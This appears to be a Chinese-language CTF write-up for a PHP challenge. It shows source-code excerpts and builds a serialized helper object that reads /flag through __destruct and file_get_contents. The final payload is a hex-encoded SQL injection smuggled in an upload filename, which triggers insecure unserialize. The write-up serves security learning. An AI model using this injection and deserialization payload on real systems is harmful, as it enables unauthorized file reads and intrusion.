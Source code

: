 ```yaml
---
Author: SuperJason
Date: 2021-1-10
---
```



## 思路
1. 访问环境。题目给出了源代码，并且说明不是文件上传。我还是尝试了文件上传的方法，可以上传恶意payload，但是无法执行，于是去分析源码,show.php可以展示我们上传的结果。
   ！[](images/不是文件上传-1.png)
2. helper.php中有魔法方法`__destruct`，通过调用`view_files`中的`file_get_contents`可以获得文件内容。需要确保`ifview`是true，`config`内容为/flag。
   ```php
    public function view_files($path){
        if ($this->ifview == False){
            return False;
            //The function is not yet perfect, it is not open yet.
        }
        $content = file_get_contents($path);
        echo $content;
    }

    function __destruct(){
        # Read some config html
        $this->view_files($this->config);
    }
   ``` 
3. 根据helper类的定义，构造反序列化数据`O:6:"helper":2:{s:9:"*ifview";b:1;s:9:"*config";s:5:"/flag";}`
    ```php
    <?php
    class helper {
        protected $ifview = True; 
        protected $config = "/flag";
    }
    $help = new helper();
    echo serialize($help);
    ?>
    ```
4. 由于在show.php中，在反序列化之前将`*`转为了`\0\0\0`，所以这里载荷改为`O:6:"helper":2:{s:9:"\0\0\0ifview";b:1;s:9:"\0\0\0config";s:5:"/flag";}`
    ```php
    public function Get_All_Images(){
            $sql = "SELECT * FROM images";
            $result = mysqli_query($this->con, $sql);
            if ($result->num_rows > 0){
                while($row = $result->fetch_assoc()){
                    if($row["attr"]){
                        $attr_temp = str_replace('\0\0\0', chr(0).'*'.chr(0), $row["attr"]);
                        $attr = unserialize($attr_temp);
                    }
                    echo "<p>id=".$row["id"]." filename=".$row["filename"]." path=".$row["path"]."</p>";
                }
            }else{
                echo "<p>You have not uploaded an image yet.</p>";
            }
            mysqli_close($this->con);
        }
    ```
5. 上传图片的sql语句为```$sql = "INSERT INTO images (`title`,`filename`,`ext`,`path`,`attr`) VALUES(".(implode(",",$sql_val)).")";```，由于上传的文件名中不能有双引号，将反序列化的数据通过16进制编码，最后得到的payload（文件名）为```1','2','3','4',0x4f3a363a2268656c706572223a323a7b733a393a225c305c305c30696676696577223b623a313b733a393a225c305c305c30636f6e666967223b733a353a222f666c6167223b7d),('test.jpg```。
   ![](images/不是文件上传-2.png)

## 总结
如果没有源代码的话，这道题应该是很难做出来的。即使是有源代码，也还是看了[网上wp](https://xz.aliyun.com/t/6911)的部分提示，才能做出这道题。总结一下题目关键点。
- 源代码审计发现helper类的析构函数-->view_files函数-->file_get_contents函数，这条利用链可以输出某个文件的内容
- 上传文件名可控，构造payload，让attr的值为经过16进制编码的反序列化数据。
- 详细逻辑需要看源码。